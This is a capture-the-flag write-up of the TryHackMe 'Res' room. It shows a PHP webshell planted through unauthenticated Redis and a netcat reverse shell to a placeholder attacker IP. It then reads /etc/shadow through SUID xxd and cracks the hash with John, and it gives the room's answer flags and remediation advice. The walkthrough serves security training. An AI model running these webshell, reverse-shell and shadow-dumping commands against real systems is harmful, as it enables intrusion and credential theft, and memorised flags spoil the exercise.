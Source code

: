 # Res Room (2025) — Write-up

**Author:** Daniel Demian  
**Room:** [Res (TryHackMe)](https://tryhackme.com/room/res) 
**Difficulty:** Easy 🟢 
**Time to Complete:** ~30 minutes

---

## Summary

A compact, beginner-friendly box that highlights standard Linux enumeration and basic privilege escalation techniques. The exercise focuses on service discovery (redis + HTTP), achieving remote code execution against Redis to obtain an initial shell, local enumeration to find credentials, and a simple file-based privilege escalation using an unexpected SUID binary (`xxd`). This write-up documents the steps taken, commands used, and final remediation notes.

---

## Quick TL;DR

- **Initial access:** Redis RCE (no authentication) and a PHP webshell.
    
- **User:** Switched to `vianka` after discovering/cracking a hashed password.
    
- **Privilege escalation:** Used SUID `xxd` to read `/etc/shadow`, cracked the hash with John, and obtained `root.txt`.

---

## Recon & Enumeration

**Nmap scan (full TCP, service/version detection):**

```bash
nmap -p- -sC -sV -T4 {TARGET_IP} -oA scans/full_tcp
```

**Representative output:**

```
Nmap 7.80 scan initiated Sat Oct  4 14:12:27 2025 as: nmap -oA /tmp/scans/scan -p- -sC -sV 10.10.153.213
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 10.10.153.213
Host is up (0.00027s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7
MAC Address: 02:08:F1:6B:28:D1 (Unknown)
```

**Quick answers (from enumeration):**

- How many ports are open? **2**
    
- DBMS installed? **Redis**
    
- Redis port? **6379**
    
- Redis version? **6.0.7**

---

## Initial Access — Redis RCE

Redis was exposed and allowed configuration writes. Using `redis-cli` we can write a PHP webshell into the webroot and trigger it via HTTP.

**Tools used:** `redis-tools` (for `redis-cli`), a web browser, and `nc` for a listener. [Resource](https://hackviser.com/tactics/pentesting/services/redis)

**Commands executed:**

```bash
# install client on attacker VM if needed
sudo apt update && sudo apt install -y redis-tools

# connect to redis on target
redis-cli -h {TARGET_IP}

# inside redis-cli
flushall
set pwn "<?php system($_REQUEST['cmd']); ?>"
config set dbfilename webshell.php
config set dir /var/www/html
save
```

After saving, the webshell is available at `http://{TARGET_IP}/webshell.php`.

**Get a reverse shell (example using netcat):**

1. Start listener on attacker:
    

```bash
nc -nlvp 1234
```

2. Trigger webshell from browser (replace `{ATTACKER_IP}` and port):
    

```
http://{TARGET_IP}/webshell.php?cmd=nc%20{ATTACKER_IP}%201234%20-e%20/bin/bash
```

3. Upgrade the shell on the target:
    

```bash
python3 -c 'import pty, os; pty.spawn("/bin/bash")'
# local: stty raw -echo; fg
export TERM=xterm-256color
reset
```

**Result:** read `user.txt`:

```bash
cat /home/vianka/user.txt
# thm{red1s_rce_w1thout_credent1als}
```

---

## Privilege Escalation — Reading /etc/shadow with `xxd`

`/etc/shadow` was not directly readable by the current account. Using the SUID `xxd` binary we can dump the hex of `/etc/shadow` and reconstruct it as a readable file. [Resource](https://gtfobins.github.io/gtfobins/xxd/#suid)

**Pattern used (lab-only, defensive learning):**

```bash
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r > /tmp/shadow
cat /tmp/shadow | sed -n '1,10p'
```

**Notes:**

- The reconstructed `/tmp/shadow` contained a hash for `vianka` starting with `$6$`, which indicates **sha512crypt**.
    
- Identify format quickly by the `$` prefix: `$6$`=sha512, `$5$`=sha256, `$1$`=md5, `$2y$`/`$2a$`=bcrypt.
    

**Transfer to attacker (one convenient option):**  
On the target (serve `/tmp`):

```bash
cd /tmp
python3 -m http.server 8000
```

On attacker:

```bash
wget http://{TARGET_IP}:8000/shadow
wget http://{TARGET_IP}:8000/passwd
```

**Merge and crack:**

```bash
unshadow passwd shadow > hashes
john --wordlist=/usr/share/wordlists/rockyou.txt --rules hashes
# output showed: beautiful1 (vianka)
john --show hashes
```

**Result:** cracked password for `vianka`: **beautiful1**

---

## Switching to `vianka` and final escalation

With the cracked password:

```bash
su - vianka
# enter password: beautiful1

# check sudo
sudo -l
# escalate if allowed
sudo su -
cat /root/root.txt
# thm{xxd_pr1v_escalat1on}
```

This completed the box: initial RCE on Redis → user flag → SUID `xxd` to read shadow → crack hash → switch to user → sudo to root.

---

## Final Thoughts & Lessons Learned

- **Service exposure matters:** an unauthenticated Redis instance led directly to RCE by writing a webshell to the document root. Never expose management services to untrusted networks.
    
- **Audit SUID binaries:** non-essential SUID programs (like `xxd`) are dangerous — remove the SUID bit unless strictly required.
    
- **Password hygiene & hashing:** even with `sha512crypt` and salt, weak passwords (e.g., `beautiful1`) are often cracked quickly with common wordlists. Enforce stronger passwords and consider additional protections (MFA).    

---

## Answers (quick list)

- How many ports are open?: **2**
    
- DBMS installed on the server?: **Redis**
    
- Redis port?: **6379**
    
- Redis version?: **6.0.7**
    
- Compromise machine & locate user.txt?: `thm{red1s_rce_w1thout_credent1als}`
    
- What is the local user account password?: `beautiful1`
    
- Escalate privileges & obtain root.txt?: `thm{xxd_pr1v_escalat1on}`
    

---

## Remediation Recommendations

1. Do not expose management services (Redis) directly to untrusted networks; require authentication and network access controls.
    
2. Remove SUID from unnecessary binaries: `chmod u-s /usr/bin/xxd` (or audit and restrict access).
    
3. Use strong password policies and enforce multi-factor authentication where possible.
    
4. Regularly scan for insecure service deployments and unexpected file permissions.
